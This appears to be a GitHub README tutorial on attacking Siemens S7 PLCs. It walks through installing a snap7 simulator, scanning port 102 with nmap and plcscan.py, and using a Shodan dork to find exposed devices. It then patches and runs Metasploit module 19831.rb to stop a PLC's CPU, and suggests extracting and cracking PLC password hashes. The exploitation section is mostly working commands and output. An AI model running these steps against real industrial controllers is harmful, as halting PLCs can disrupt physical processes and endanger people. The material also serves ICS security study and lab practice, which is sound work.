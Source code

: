 ## S7comm

![S7Comm Layers](docs/img/s7comm_layer.png)

Wireshark wiki S7comm: https://wiki.wireshark.org/S7comm

## Siemens S7 PLC simulator

If you wanna play around, you can install an S7 simulator written on python:

1. Download *snap7-full-x.x.x.zip*: https://osdn.net/projects/sfnet_snap7/downloads/1.4.0/snap7-full-1.4.0.zip/

2. Unzip with name snap7-full in ~/

3. Execute the following commands

```bash
$ cd ~/snap7-full
$ sudo apt-get install python-pip
$ sudo -H pip install python-snap7
$ cd build/unix
$ make -f x86_64_linux.mk
$ cd ../bin/x86_64-linux/
$ sudo cp libsnap7.so /usr/lib
$ sudo ldconfig
$ sudo python
>>> import snap7
>>> s7server = snap7.server.Server()
>>> s7server.create()
>>> s7server.start()
>>> s7server.get_status()
('SrvRunning', 'S7CpuStatusRun', 0)
>>>
```

Now the simulator is ready!

PS: I use Ubuntu 16 on a VM.

## Scan

Nmap scan:

```bash
nmap --script s7-info.nse -p 102 <host/s>
```

Shodan dork: *port:102*

Scan and identify: *plcscan.py*:

```bash
#Example usage

plcscan.py 192.168.0.1

plcscan.py --timeout 2 192.168.0.1:102 10.0.0.0/24

plcscan.py --hosts-list hosts.txt
```

Using nMap with the script **s7-info.nse**: https://nmap.org/nsedoc/scripts/s7-info.html

```
nmap --script s7-info.nse -p 102 10.0.0.1/24
```

## Exploits

There should be also some metasploit modules:

```
$ searchsploit Siemens Simatic S7
```
Add exploit *19831.rb* to metasploit:

Metasploit comes with a ton of exploits already included; however, this Siemens exploit needs to be added. As the exploit was written with the usage of Metasploit in mind, this is a simple task. To add the module, run the following commands on the Kali Linux VM:

To adjust for using a newer Metasploit framework, we need to change the same code in the 19831.rb file. In the file take a look on the line 39:

```ruby 
OptInt.new('MODE', [false, 'Set true to put the CPU back into RUN mode.',false]),```

Change the preceding to this:

```ruby
OptInt.new('MODE', [false, 'Mode 1 to Stop CPU. Set Mode to 2 to put the CPU back into RUN mode.',1]),```

Now copy module to msf user directory:

```bash
$ cd ~/.msf4/modules/
~/.msf4/modules $ mkdir -p auxiliary/hardware/scada
~/.msf4/modules $ cd auxiliary/hardware/scada
~/.msf4/modules/auxiliary/hardware/scada $ cp /usr/share/exploitdb/platforms/hardware/remote/19831.rb 19831.rb
~/.msf4/modules/auxiliary/hardware/scada $ service postgresql start
~/.msf4/modules/auxiliary/hardware/scada $ msfconsole
```

Now go with metasploit:

```bash
msf > reload_all
msf > search siemens
msf > use auxiliary/hardware/scada/19831
msf auxiliary(19831) > show options
msf auxiliary(19831) > set RHOSTS 172.16.252.134
RHOSTS => 172.16.252.134
msf auxiliary(19831) > exploit
[+] 172.16.252.134 PLC is running, iso-tsap port is open.
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```
On newer Siemens devices, they added a password for certain actions! Use *s7_password_hashes_extractor.py* to extract hash and crack it online!

## Manual exploitation

Intercept traffic then make packets reply and stuff!

### Conclusions

Resources and bibliography:

  * **Industrial Cybersecurity - Efficiently secure critical infrastructure systems** by *Pascal Ackerman*
  * **HACKING EXPOSED: ICS and SCADA Security Secrets and Solutions** by *C. E. Bodungen, B. L. Singer, A. Shbeeb, S. Hilt, K. Wilhoit*
  * **Cybersecurity for Industrial Control Systems: SCADA, DCS, PLC, HMI, and SIS** by *T. Macaulay, B. L. Singer*
  * https://media.blackhat.com/bh-us-11/Beresford/BH_US11_Beresford_S7_PLCs_WP.pdf
  * Protocol description: http://snap7.sourceforge.net/siemens_comm.html

Good to read:

  * https://pdfs.semanticscholar.org/9a1d/c724e7f8060907c3396ba6d6e416b56d66dd.pdf